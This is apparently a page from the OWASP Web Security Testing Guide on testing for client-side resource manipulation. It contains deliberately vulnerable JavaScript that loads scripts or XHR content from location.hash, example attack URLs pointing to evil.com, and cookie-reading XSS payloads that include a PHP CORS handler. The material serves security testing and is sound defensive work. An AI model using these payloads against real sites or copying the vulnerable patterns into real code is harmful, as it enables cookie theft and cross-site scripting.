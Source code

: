 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Client-side Resource Manipulation

|ID          |
|------------|
|WSTG-CLNT-06|

## Summary

A client-side resource manipulation vulnerability is an input validation flaw. It occurs when an application accepts user-controlled input that specifies the path of a resource such as the source of an iframe, JavaScript, applet, or the handler of an XMLHttpRequest. This vulnerability consists of the ability to control the URLs that link to some resources present in a web page. The impact of this vulnerability varies, and it is usually adopted to conduct XSS attacks. This vulnerability makes it is possible to interfere with the expected application's behavior by causing it to load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in which an attacker is able to control the `location.hash` (source) which reaches the attribute `src` of a script element. This particular case leads to a XSS attack as external JavaScript could be injected.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

An attacker could target a victim by causing them to visit this URL:

`www.victim.com/#http://evil.com/js.js`

Where `js.js` contains:

```js
alert(document.cookie)
```

This would cause the alert to pop up on the victim's browser.

A more damaging scenario involves the possibility of controlling the URL called in a CORS request. Since CORS allows the target resource to be accessible by the requesting domain through a header-based approach, the attacker may ask the target page to load malicious content from its own website.

Here is an example of a vulnerable page:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

The `location.hash` is controlled by user input and is used for requesting an external resource, which will then be reflected through the construct `innerHTML`. An attacker could ask a victim to visit the following URL:

`www.victim.com/\#http://evil.com/html.html`

With the payload handler for `html.html`:

```html
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## Test Objectives

- Identify sinks with weak input validation.
- Assess the impact of the resource manipulation.

## How to Test

To manually check for this type of vulnerability, we must identify whether the application employs inputs without correctly validating them. If so, these inputs are under the control of the user and could be used to specify external resources. Since there are many resources that could be included in the application (such as images, video, objects, css, and iframes), the client-side scripts that handle the associated URLs should be investigated for potential issues.

The following table shows possible injection points (sink) that should be checked:

| Resource Type   | Tag/Method                                | Sink   |
| --------------- | ----------------------------------------- | ------ |
| Frame           | iframe                                    | src    |
| Link            | a                                         | href   |
| AJAX Request    | `xhr.open(method, [url], true);` | URL    |
| CSS             | link                                      | href   |
| Image           | img                                       | src    |
| Object          | object                                    | data   |
| Script          | script                                    | src    |

The most interesting ones are those that allow to an attacker to include client-side code (for example JavaScript) that could lead to XSS vulnerabilities.
